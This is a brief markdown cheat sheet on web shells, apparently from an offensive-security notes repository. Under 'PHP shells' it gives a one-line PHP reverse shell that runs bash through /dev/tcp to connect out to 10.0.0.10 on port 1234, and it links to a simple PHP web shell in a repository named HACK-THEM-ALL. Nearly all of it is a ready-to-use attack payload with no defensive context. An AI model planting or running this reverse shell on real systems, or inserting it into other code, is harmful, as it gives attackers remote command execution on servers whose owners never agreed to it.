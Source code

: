 # Web Shells

## PHP shells

**tiny reverse shell**
```
exec("/bin/bash -c 'bash -i > /dev/tcp/10.0.0.10/1234 0>&1'");
```

[php simple web shell](https://github.com/k2haxor/HACK-THEM-ALL/blob/master/shells/shell.php)

